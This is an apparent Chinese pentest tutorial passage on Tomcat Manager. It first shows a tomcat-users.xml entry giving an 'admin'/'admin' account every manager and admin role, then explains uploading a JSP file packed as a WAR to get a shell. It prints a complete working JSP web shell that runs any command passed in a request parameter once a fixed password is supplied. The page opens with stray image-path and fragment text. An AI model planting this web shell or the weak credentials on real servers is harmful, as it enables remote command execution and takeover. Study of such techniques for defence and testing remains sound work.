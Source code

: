 -   manager-status - allows access to the status pages only
    

这篇文章写的很好。# Tomcat Manager用户配置详解[http://www.365mini.com/page/tomcat-manager-user-configuration.htm](http://www.365mini.com/page/tomcat-manager-user-configuration.htm)

Tomcat Manager是Tomcat自带的、用于对Tomcat自身以及部署在Tomcat上的应用进行管理的web应用。Tomcat是Java领域使用最广泛的服务器之一，因此Tomcat Manager也成为了使用非常普遍的功能应用。

在默认情况下，Tomcat Manager是处于禁用状态的。准确地说，Tomcat Manager需要以用户角色进行登录并授权才能使用相应的功能，不过Tomcat并没有配置任何默认的用户，因此需要我们进行相应的用户配置之后才能使用Tomcat Manager。

在`conf/tomcat-users.xml`添加以下内容，重启服务。

```
<role rolename="admin"/>  
<role rolename="admin-gui"/>  
<role rolename="admin-script"/>  
<role rolename="manager-gui"/>  
<role rolename="manager-script"/>  
<role rolename="manager-jmx"/>  
<role rolename="manager-status"/>  
<user username="admin" password="admin" roles="admin,admin-gui,admin-script,manager-gui,manager-script,manager-jmx,manager-status"/>

```


再次访问，输入用户名和密码，就可以进来了。![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-8-14/76689927.jpg)

### Tomcat getshell 1

既然进来了，就要考虑怎么getshell。

选择`Manager App`![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-8-14/9748128.jpg)

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-8-14/76689927.jpg)

**上传War包**

先将jsp马压缩为zip，再将zip后缀改名为war，然后上传war包。

本次上传的为xima.jsp。

```
<%  
if("023".equals(request.getParameter("pwd"))){  
 java.io.InputStream in =   
 Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();  
 int a = -1;  
 byte[] b = new byte[2048];  
 out.print("<pre>");  
 while((a=in.read(b)) !=1){  
 out.println(new String(b));  
 }  
 out.print("</pre>");  
}  
%>

```
